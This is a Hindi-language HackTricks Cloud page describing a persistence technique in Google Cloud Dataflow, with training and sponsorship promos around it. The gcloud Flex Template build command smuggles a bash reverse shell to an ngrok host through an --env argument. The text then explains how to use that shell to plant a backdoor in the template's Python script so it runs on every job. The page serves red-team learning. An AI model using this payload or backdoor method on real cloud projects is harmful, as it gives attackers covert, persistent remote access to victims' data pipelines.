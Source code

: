 # GCP - डेटाफ़्लो परिस्थिति

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

## डेटाफ़्लो

### निर्दर्शन में परिस्थिति बनाएं जो निर्मित कंटेनर में हो

[**दस्तावेज़ से ट्यूटोरियल का पालन करते हुए**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) आप एक नया (उदाहरण के लिए पायथन) फ्लेक्स टेम्पलेट बना सकते हैं:
```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
--repository-format=docker \
--location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
--image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
--sdk-language "PYTHON" \
--flex-template-base-image "PYTHON3" \
--metadata-file "metadata.json" \
--py-path "." \
--env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
--env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
--env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
--env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
--region=us-central1
```
**जब यह बन रहा होगा, तो आपको एक रिवर्स शैल मिलेगा** (आप पिछले उदाहरण में जैसे एनवायरनमेंट वेरिएबल्स का दुरुपयोग कर सकते हैं या अन्य पैरामीटर्स का दुरुपयोग करके डॉकर फ़ाइल को कुछ भी क्रियात्मक करने के लिए सेट कर सकते हैं)। इस समय, रिवर्स शैल के अंदर, **`/template` निर्देशिका में जाकर मुख्य पायथन स्क्रिप्ट को संशोधित करना संभव होगा जो कि निष्पादित किया जाएगा (हमारे उदाहरण में यह `getting_started.py` है)**। यहां अपना बैकडोर सेट करें ताकि हर बार जॉब निष्पादित होने पर यह निष्पादित हो।

फिर, जब अगली बार जॉब निष्पादित होगा, तो संकटित कंटेनर जो बनाया गया है चलाया जाएगा:
```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
--template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
--parameters=output="gs://$REPOSITORY/out" \
--region=us-central1
```
{% hint style="success" %}
**AWS हैकिंग सीखें और अभ्यास करें:**<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
**GCP हैकिंग सीखें और अभ्यास करें:** <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) ज्वाइन करें या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या हमें ट्विटर पर फॉलो करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
